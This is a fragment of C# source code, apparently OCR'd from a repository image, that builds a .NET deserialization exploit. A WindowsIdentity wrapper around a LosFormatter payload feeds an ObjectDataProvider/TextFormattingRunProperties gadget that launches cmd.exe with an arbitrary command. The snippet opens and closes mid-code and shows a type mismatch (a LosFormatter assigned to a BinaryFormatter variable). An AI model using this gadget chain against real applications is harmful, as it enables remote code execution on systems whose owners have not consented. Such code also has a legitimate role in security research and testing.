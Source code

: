 ```

            BinaryFormatter b = new LosFormatter();
            BinaryFormatter bf = new BinaryFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                bf.Serialize(memory, textFormattingRunPropertiesMarshal);
                string b64payload = Convert.ToBase64String(memory.ToArray());
                WindowsIdentityIdentityMarshal windowsIdentityIdentityMarshal = new WindowsIdentityIdentityMarshal(b64payload);

                memory.Position = 0;
                b.Serialize(memory, windowsIdentityIdentityMarshal);
                memory.Position = 0;
                b.Deserialize(memory);

            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class WindowsIdentityIdentityMarshal : ISerializable
    {
        public WindowsIdentityIdentityMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsIdentity));
            info.AddValue("System.Security.ClaimsIdentity.actor", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.bootstrapContext", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.claims", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
```